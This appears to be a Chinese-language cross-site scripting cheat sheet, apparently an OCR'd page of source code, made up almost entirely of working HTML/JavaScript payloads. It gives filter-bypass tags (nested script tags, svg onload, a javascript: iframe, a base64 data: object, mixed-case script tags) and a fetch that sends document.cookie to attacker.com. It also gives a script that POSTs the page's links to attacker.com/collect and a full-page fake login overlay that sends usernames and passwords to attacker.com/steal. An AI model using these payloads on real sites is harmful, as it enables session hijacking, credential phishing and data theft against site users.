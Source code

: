 ### 绕过过滤
```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
<svg/onload=alert`1`>
<iframe src="javascript:alert('XSS')">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">
```

### 窃取Cookie
```html
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

## 概念验证

### 数据窃取
```html
<script>
  // 发送当前页面的所有链接到攻击者服务器
  var links = document.getElementsByTagName('a');
  var stolenData = '';
  for(var i=0; i<links.length; i++) {
    stolenData += links[i].href + '\n';
  }
  fetch('https://attacker.com/collect', {
    method: 'POST',
    body: stolenData
  });
</script>
```

### 界面伪装
```html
<!-- 覆盖整个页面显示虚假登录表单 -->
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999">
  <h1>请重新登录</h1>
  <form action="https://attacker.com/steal" method="POST">
    用户名: <input type="text" name="username"><br>
    密码: <input type="password" name="password"><br>
    <input type="submit" value="登录">
  </form>
</div>
```

## 绕过技术

### 大小写混淆
```html
<ScRiPt>alert('XSS')</ScRiPt>
```
